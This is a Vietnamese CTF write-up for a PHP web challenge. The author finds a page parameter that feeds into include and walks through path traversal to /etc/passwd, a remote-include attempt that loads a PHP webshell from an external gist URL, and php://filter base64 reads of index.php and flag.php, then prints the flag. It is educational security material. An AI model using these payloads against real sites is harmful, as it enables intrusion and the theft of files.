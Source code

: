 # Mỳ Tôm Thanh Long 
Giao diện trang web như sau: 
![Alt text](image.png)
>Đi dạo một vòng website thì mình thấy nó hoạt động dựa vào trang chủ rồi import các page , có tên được truyền từ URL => 
![Alt text](image-1.png)
Mình nghĩ ngay đến LFI VÀ RFI 
đầu tiên mình phải comfirm nó bị **Path Traversal** => tiến hành fuzzing để đọc  file ** /etc/passwd ** 

thử payload  : 
```
?page=../..pages/home.php
```
nó log ra lỗi => là nó dùng hàm include , mà hàm này nếu cofig *allow_url_include* bật thì mình có thể rce ( mình đoán src code của file flag.php chứa flag , chứ đâu web đâu ai đặt tên category là flag đúng không :>)
fuzz thử 1 web shell php lên xem thử : 
payload : 
```
page=https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php
```
nó trả về  : 
![Alt text](image-9.png)
vậy là tham số này nó đã off -> không rce được , chúng ta cùng nghĩ cách khác 

Bắt đầu ném vào intruder trong Burp để fuzz đọc file /etc/passwd
payload position chính là value của parameter page 
![Alt text](image-3.png)
word list thì mình lấy của burp luôn -> nhớ đổi {FILE} thành /etc/passwd bằng chắc năng *match/replace* trong payload processing 
kết quả :
![Alt text](image-4.png)
bước đầu mình đã comfirm được nó bị path travesal 
Không RFI được thì mình test LFI -> mình nghĩ đến PHP wrapper để đọc file 
payload : 
```
php://filter/convert.base64-encode/resource=index.php
```
output : 
![Alt text](image-5.png)
decode đoạn base64 đó ta được  src của index.php 
![Alt text](image-6.png)
giờ ta thử đọc flag.php xem có đúng mình đoán không : >  flag.php thì nằm trong folder pages nên payload là :
```
php://filter/convert.base64-encode/resource=pages/flag.php
```
output:
![Alt text](image-7.png)
send nó qua Decoder 
và đã có flag 
![Alt text](image-8.png)
# FLAG 
```
KCSC{Lan_Dau_Tien_Trai_Thanh_Long_Co_Trong_KCSC:))}
``` 
